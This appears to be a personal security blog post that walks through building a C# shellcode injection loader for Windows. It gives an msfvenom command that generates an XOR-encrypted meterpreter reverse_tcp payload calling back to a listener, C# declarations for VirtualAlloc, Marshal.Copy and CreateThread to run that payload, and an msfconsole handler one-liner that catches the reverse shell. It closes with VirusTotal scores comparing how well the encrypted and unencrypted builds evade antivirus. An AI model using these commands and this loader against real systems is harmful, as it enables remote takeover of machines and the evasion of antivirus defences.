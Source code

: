 ```yaml
---
title: Shellcode injection
published: true
---
```


<!--
Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.


[Link to another page](another-page).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-->

# [](#header-1) What is shellcode ?

In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode.

# [](#header-2) Methodology

* Generate encrypted-xored shellcode in csharp format with msfvenom. Don't forget to store the encrypt-key to decrypt the shellcode before inject it.

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp lport=4444 lhost=192.168.1.66 -f csharp --encrypt xor --encrypt-key 'k'
```
<br>


* VirtualAlloc: Allocate memory for the future process ran by shellcode.

```cs
[DllImport("kernel32.dll")] 
  private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,
    uint size,
    uint flAllocationType,
    uint flProtect
);
```
<br>

* Marshal.Copy: Copy shellcode byte to destination memory block. It's used to for moving the shellcode bytes to te allocate memory that we did with VirtualAlloc.
  
```cs 
Marshal.Copy(byte[] source,
    int startIndex,
    IntPtr destination,
    int size_source
);
```
<br>

* CreateThread: Create a thread in our process to execute the shellcode.

```cs  
private static extern IntPtr CreateThread(uint lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr param,
    uint dwCreationFlags,
    ref uint lpThreadId
);
```
<br>

* Run handler in metasploit and listen for incoming connection`.

```console
msfconsole -q -x 'use multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost 0.0.0.0;set lport 4444;run'
```

<br>

# Proof of concept

<video width="500" height="500" controls>
  <source src="../assets/shellcode_injection_poc.mp4" type="video/mp4">
</video>


# Result

Our malware is detected by many antivirus as trojan like Windows Defender. Unfortunaly, this technique is too old and easily detected for modern antivirus. But my curiosity wanted to test if encrypt-xored payload has any effect on score detection. I just recreate payload without any encryption and replace it in my code. I compiled the code into exe file and loaded it in [virustotal.com](https://virustotal.com) to compare score. The no-encryption improve considerably the score and multiply it by ~2. 

</br>   

### Score without any encryption

<img src="../assets/shellcode_injection_1.png">


### Score with xored encryption
<img src="../assets/shellcode_injection_2.png">

</br> 

# References

* [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)


* [https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)

* [https://www.youtube.com/watch?v=aNEqC-U5tHM&ab_channel=crow](https://www.youtube.com/watch?v=aNEqC-U5tHM&ab_channel=crow)
